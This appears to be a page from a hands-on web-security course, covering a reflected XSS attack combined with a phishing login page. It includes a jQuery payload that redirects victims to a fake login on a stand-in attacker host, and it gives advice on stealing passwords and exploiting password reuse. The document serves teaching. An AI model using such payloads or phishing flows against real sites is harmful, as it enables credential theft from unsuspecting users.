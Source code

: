 XSS 2 - Reflected XSS + Phishing!
---------------------------------

![image](img/sword.png)


We've successfully attacked the system with a Stored XSS attack. Now let's try another method - a **Reflected attack**!

Reflected attacks take advantage of unsanitized data that is **injected from the url** and passes it to the code.

### Read again!

If you want, you can browse through [this again](https://www.owasp.org/index.php/Cross-site_Scripting_%28XSS%29).

### Attack!
Our vector of attack is going to be like so:

1. Using a [phishing](https://www.owasp.org/index.php/Phishing) page - a fake login page that has every login attempt send the credentials to your `serve` application. 
	> under `utils/phishing-page` you will find a phishing page I have already created for you

2. Did you notice the *welcome* message poping up once you login? 

	Use that to inject your script! Have the fake login page require the user to log in, after clicking on the anywhere in the page
	> Hint: this is how it is done with jQuery ```$("body").click(function(){ window.location="http://www.attacker.com:3000/utils/phishing-page/Login.html" })```

3. You are trying to steal the victim's password! Make the new malicious flow as convincing as possible! 

.. 

..

You would be surprised [how many people](http://docs.apwg.org/reports/apwg_trends_report_q1_2014.pdf) fall victim to these kind of attacks..

### Rolling the attack further

This method of attack doesn't work on all users, but when an unsuspecting user "bites", you will get their *password* and not just a *session*!

If for example, they use the same password as their *gmail* account, you've basically just gotten access to their mail too - and from there - their whole life!

- - - 
#### Have you already hacked the planet? Does all base belong to you?
[good! NEXT!](05-XSS2-defence.md)